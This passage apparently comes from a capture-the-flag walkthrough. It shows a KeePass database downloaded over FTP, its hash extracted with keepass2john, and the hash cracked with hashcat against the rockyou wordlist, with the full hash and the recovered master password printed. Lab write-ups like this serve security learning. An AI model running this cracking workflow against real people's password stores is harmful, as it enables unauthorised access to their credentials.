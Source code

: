 Let's take that KeePass database and see if we can decipher the password with HashCat; but first we must extract a hash compatible with HashCat, for this we will use a tool called keepass2john from the John The Ripper suite.  

Hashcat, is the world’s fastest and most advanced password recovery utility, supporting five unique modes of attack for over 200 highly-optimized hashing algorithms. hashcat currently supports CPUs, GPUs, and other hardware accelerators on Linux, Windows, and OSX, and has facilities to help enable distributed password cracking.   
[Full article in Kali-Linux](https://tools.kali.org/password-attacks/hashcat)  

Jhon The Ripper, is designed to be both feature-rich and fast. It combines several cracking modes in one program and is fully configurable for your particular needs.   
[Full article in Kali-Linux](https://tools.kali.org/password-attacks/john)

{% highlight shell %}
ftp> get tim.kdbx
local: tim.kdbx remote: tim.kdbx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2222 bytes received in 0.05 secs (42.3532 kB/s)
{% endhighlight %}  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally/ftp]─[root@Arthorias]─[0]─[3041]
╰─[:)] # keepass2john tim.kdbx > tim.hash
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally/ftp]─[root@Arthorias]─[0]─[3041]
╰─[:)] # cat tim.hash 
tim:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
{% endhighlight %}  

Now that we have our hash we can run against hashcat.  
NOTE: Remove *tim:* from the hash before trying to crack.   
I'm going to use HashCat in Windows, this way I can identify my GPU and the cracking process will be faster.  

{% highlight shell %}
C:\hashcat-5.1.0> .\hashcat64.exe -m 13400 .\tim.hash .\rockyou.txt
hashcat (v5.1.0) starting...

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c
Watchdog: Temperature retain trigger disabled.

Dictionary cache hit:
* Filename..: .\rockyou.txt
* Passwords.: 14343296
* Bytes.....: 139921497
* Keyspace..: 14343296

$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da:simplementeyo

Session..........: hashcat
Status...........: Cracked
Hash.Type........: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
Hash.Target......: $keepass$*2*6000*222*f362b5565b916422607711b54e8d0b...1cd7da
{% endhighlight %}  
